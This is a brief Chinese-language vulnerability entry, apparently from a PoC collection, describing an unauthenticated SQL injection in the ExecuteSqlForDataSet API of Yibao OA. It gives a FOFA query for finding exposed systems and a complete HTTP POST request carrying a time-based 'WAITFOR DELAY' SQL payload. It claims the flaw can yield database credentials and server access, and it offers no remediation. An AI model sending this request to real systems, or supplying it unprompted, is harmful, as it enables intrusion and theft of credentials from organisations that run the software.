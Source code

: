 # 易宝OA-ExecuteSqlForDataSet接口处存在SQL注入漏洞

易宝OA ExecuteSqlForDataSet接口处存在SQL注入漏洞，未经身份认证的攻击者可以通过此漏洞获取数据库敏感信息，用户名密码等凭据，进一步利用可获取服务器权限。

## FOFA

```javascript
product="顶讯科技-易宝OA系统"
```

## poc

```javascript
POST /api/system/ExecuteSqlForDataSet HTTP/1.1
Host: your-ip
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36
 
token=zxh&sql=;WAITFOR DELAY '0:0:5'--&strParameters
```

![image-20241024211640781](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202410251419350.png)
